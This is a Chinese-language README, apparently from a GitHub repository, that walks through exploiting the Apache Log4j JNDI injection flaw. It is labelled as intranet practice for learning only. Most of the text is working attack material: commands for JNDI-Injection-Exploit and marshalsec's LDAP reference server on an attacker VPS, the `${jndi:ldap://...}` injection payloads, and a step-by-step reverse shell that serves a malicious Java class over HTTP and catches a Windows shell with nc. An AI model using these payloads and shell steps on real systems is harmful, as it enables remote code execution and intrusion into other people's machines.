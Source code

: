# 以下都是内网学习打的，仅供学习
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.109
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.109:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/kavkt9
ldap://10.10.10.109:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.109:1099/m5m8wo
ldap://10.10.10.109:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.109:1389/m5m8wo} `
![](img/2.png)

## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell,参考[记一次若依cms后台getshell](https://bkfish.gitee.io/2021/06/26/%E8%AE%B0%E4%B8%80%E6%AC%A1%E8%8B%A5%E4%BE%9Dcms%E5%90%8E%E5%8F%B0getshell/)

我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址
然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell
![](img/1.png)

# 以上都是内网学习打的，仅供学习